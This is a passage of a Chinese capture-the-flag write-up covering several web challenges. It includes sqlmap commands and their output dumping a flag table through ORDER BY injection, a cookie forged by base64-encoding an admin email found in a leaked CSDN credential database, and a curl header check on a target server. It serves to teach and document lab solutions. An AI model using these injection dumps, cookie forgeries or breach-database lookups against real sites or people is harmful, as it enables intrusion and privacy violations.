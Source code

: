 ```bash

sqlmap -r 'sqlmap_order_by' -D shop  -T flag --columns --level 3 --thread 9 
Database: shop
Table: flag
[1 column]
+--------+-------------+
| Column | Type        |
+--------+-------------+
| flag   | varchar(35) |
+--------+-------------+

sqlmap -r 'sqlmap_order_by' -D shop  -T flag -C flag --dump  --level 3 --thread 9 
+---------------------------+
| flag                      |
+---------------------------+
| flag{666_0rdorby_you_can} |
+---------------------------+
```


## Web5 Happy Hacking Keyboard

- Python SSTI
- Cookie forgery
- Large Integer Overflow





## Web6 easy_login

Easy Login...So Easy... 


demo 账户登录后回显 `Welcome,But u can’t do anything!`，查看 Cookie 如下：

```bash
mycookie=ZGVtb0BkYmFwcHNlY3VyaXR5LmNvbS5jbg%3D%3D
```

Base64 解码后得到 `demo@dbappsecurity.com.cn`，接下来则需要获取到 admin 的邮箱，F12 审查元素时获取到以下内容：

```html
<meta name="author" content="nwup2008">
```

社工库检索 `nwup2008` 获取到 CSDN 泄露出的 邮箱 `csdn-pass@qq.com`，base64 加密替换 Cookie 即可获取 flag{a327f27394c63ef5d6b1eed9591b90a4}.



## Web7 签到题

靶机地址：101.71.29.5:10058

```bash
$ curl -I "http://101.71.29.5:10058"
HTTP/1.1 403 Forbidden
Date: Sat, 26 Oct 2019 19:33:47 GMT
Server: Apache/2.2.15 (CentOS)
Accept-Ranges: bytes
key: Flag{c456aa77cf2bc89affb665194e9dee57}
Content-Length: 5039
Connection: close
Content-Type: text/html; charset=UTF-8
```
